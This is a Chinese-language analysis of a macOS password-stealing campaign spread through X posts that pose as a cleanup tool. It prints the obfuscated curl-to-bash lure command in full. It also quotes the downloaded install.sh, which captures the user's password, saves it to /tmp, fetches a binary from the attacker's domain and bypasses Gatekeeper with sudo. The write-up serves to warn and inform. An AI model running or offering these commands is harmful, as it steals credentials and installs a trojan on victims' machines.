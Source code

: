 [TOC]

## 1.诱导

 从twitter(x)上看到的，默认获得官方认证，打着清理垃圾的幌子，引导打开它的网站

 从mac上看到的样子如下：
![image.png](https://s2.loli.net/2025/08/11/y8cAd9BGfPN4Fmh.png)

从windows上看到的如下：

![image.png](https://s2.loli.net/2025/08/11/XVNCH2pyDrewWYB.png)

从移动端看到的如下：
![image.png](https://s2.loli.net/2025/08/11/1JNbC4UGLEoOrKq.png)



## 2.执行脚本（先诱导用户输入密码，再下载恶意二进制文件，利用密码开权限绕过检查并执行）

```shell
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly96ZWVuaW9zLmNvbS90dy9pbnN0YWxsLnNo | base64 -d))"
base64解码(`https://zeenios.com/tw/install.sh`)-->下载脚本-->执行脚本


~/desktop/sh  $ cat install.sh
#!/bin/bash

username=$(whoami)  #获取当前用户名

while true; do #用命令行的方式，让用户循环输入密码
  echo -n "System Password: "
  read password
  echo
  
  #检查输入的密码是否正确
  if dscl . -authonly "$username" "$password" >/dev/null 2>&1; then
    echo -n "$password" > /tmp/.pass    #密码明文写入 /tmp/.pass (/tmp是放临时文件的公共区域)
    break
  else
    echo "Incorrect password! Try again."
  fi
done
#从 zeenios.com 下载一个叫 update 的二进制文件到 /tmp/update
curl -o /tmp/update https://zeenios.com/tw/update >/dev/null 2>&1
#用刚才输入的密码执行 sudo（管理员权限）命令，去清除 /tmp/update 文件的扩展属性（比如 macOS Gatekeeper 的安全标记），绕过系统的安全检查，防止 macOS 阻止这个程序运行
echo "$password" | sudo -S xattr -c /tmp/update >/dev/null 2>&1
#给/tmp/update 添加执行权限，然后直接运行它（可能是病毒、木马、远程控制程序）
chmod +x /tmp/update
/tmp/update%   
```

## 3.二进制文件

update文件
使用`VirusTotal(https://www.virustotal.com)`分析如下：

![image.png](https://s2.loli.net/2025/08/11/YHiksTyMNgCSqQn.png)

 像业界著名的厂商（`ALYac`,`AVG`,.....）均检测出恶意，**Trojan-PSW**（密码窃取木马）

 **Trojan-PSW（密码窃取木马）**
 **MacOS:Stealer-CH [Pws]**

**Gen:Variant.MAC.Amos.8**

 **OSX/InfoStl-ER**

全都是窃取密码的报警